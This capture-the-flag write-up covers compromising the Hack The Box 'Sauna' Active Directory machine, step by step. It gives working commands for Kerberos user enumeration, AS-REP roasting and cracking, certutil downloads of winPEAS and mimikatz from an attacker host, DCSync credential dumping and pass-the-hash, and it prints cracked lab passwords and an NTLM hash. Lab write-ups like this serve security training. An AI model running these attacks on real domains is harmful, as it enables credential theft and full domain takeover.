## Enumeration
### NMAP

```bash
nmap -sC -sV -v -T4 -Pn -oN scans/nmap.txt sauna.htb
```

```text
PORT    STATE SERVICE       VERSION
53/tcp  open  domain        Simple DNS Plus
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp open  microsoft-ds?
636/tcp open  tcpwrapped
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-08-01T12:23:37
|_  start_date: N/A
|_clock-skew: 7h00m00s
```

### Website

Website on port `443`.

  

On the `/about.html` page, there's a list of team members, we'll add this to user list.

  

```text
fergus smith
shaun coins
hugo bear
bowie taylor
sophie driver
steven kerb
```

### Kerbrute

We can use `kerbrute` to check valid usernames on the target. I'll start by using a wordlist containing different formats of usernames so we can identify how the environment structure's their usernames in AD.

```bash
kerbrute userenum -d egotistical-bank.local --dc egotistical-bank.local /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt
```

Based on the scan we can determine the usernames are formed using the first letter of their first name followed by their surname.

  

`fsmith` most likely is `fergus smith` which was found on the website.

If we change all of the users we found earlier into that format and run `kerbrute` again we only find that `fsmith` is a valid username.

  

## Shell as fsmith

### ASREPRoast

An ASREPRoasting attack looks for users without the Kerberos pre-authentication attribute `DONT_REQ_PREAUTH`. This means that anyone can send an `AS_REP` message. The message contains data encrypted using the user's key, derived from its password. This lets us crack the password offline.

```bash
impacket-GetNPUsers egotistical-bank.local/ -usersfile validusers.txt -format hashcat -outputfile hashes.asreproast
```

We get an encrypted TGT back. Let's use `hashcat` to crack it.

  

```bash
hashcat -m 18200 -a 0 hashes.asreproast /usr/share/wordlists/rockyou.txt --force
```

  

```text
fsmith:Thestrokes23
```

We can now use `evil-winrm` to login.

```bash
evil-winrm -i sauna.htb -u fsmith -p Thestrokes23
```

  

## Shell as svc_loanmgr

### Enumeration

Before continuing, Let's use `bloodhound-python` to dump domain objects and look at where we should move next using `bloodhound`.

```bash
bloodhound-python -c All -u fsmith -p 'Thestrokes23' -d egotistical-bank.local -dc egotistical-bank.local -ns 10.10.10.175
```

After opening the exported domain objects we dumped in `bloodhound`, it look like the best path forward is to pivot to `svc_loadmgr` first and then get `administrator`.

  

We can't see much useful information in this view. Let's head to the `Node Info` and look at the `Outbound Control Rights` section. Then click `First Degree Object Control`, this will show us objects that users have control of.

  

It shows us that the `svc_loanmgr` user has DS Replication Get Changes All (`GetChangesAll`) privileges on the domain.

  

We can right click on the path and select `Help` to give us more information about potential attacks we can use.

  

It tells us that we could utilise a `DCSync` attack. If we look at the `Abuse Info` tab, it shows us commands and tools we can use to perform this attack.

  

## AutoLogon Credentials

Let's run `winPEAS` to see if there's any low hanging fruit.

```bash
cp /usr/share/windows-binaries/winPEASx64.exe ./winpeas.exe
python3 -m http.server 80
```

```powershell
certutil -urlcache -split -f http://10.10.16.2/winpeas.exe c:\users\fsmith\desktop\winpeas.exe

.\winpeas cmd fast
```

We've found credentials for the `svc_loanmgr` user.

  

```text
svc_loanmgr:Moneymakestheworldgoround!
```

We can use `evil-winrm` like before to get our shell.

## Shell as Administrator

There's two ways to perform this attack. We can use `mimikatz` or `secretsdump`. `secretsdump` let's us carry out the attack from our machine. I'll show both.

### DCSync - mimikatz

To perform this attack we first need to upload `mimikatz` onto the target.

```bash
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe ./
python3 -m http.server 80
```

```powershell
certutil -urlcache -split -f http://10.10.16.2/mimikatz.exe c:\users\svc_loanmgr\desktop\mimikatz.exe
```

  

```powershell
.\mimikatz.exe 'lsadump::dcsync /domain:egotistical-bank.local /user:administrator' exit
```

  

We're able to obtain the Administrator's NTLM hash.

```text
823452073d75b9d1cf70ebdf86c7f98e
```

### DCSync - secretsdump

```bash
impacket-secretsdump 'svc_loanmgr:Moneymakestheworldgoround!@egotistical-bank.local'
```

  

### Pass the Hash

We can obtain a shell by using the NTLM hash rather than a password.

```bash
impacket-psexec egotistical-bank.local/Administrator@sauna.htb -hashes :823452073d75b9d1cf70ebdf86c7f98e
```

  

### Proof

```powershell
type c:\users\administrator\desktop\root.txt & ipconfig
```

  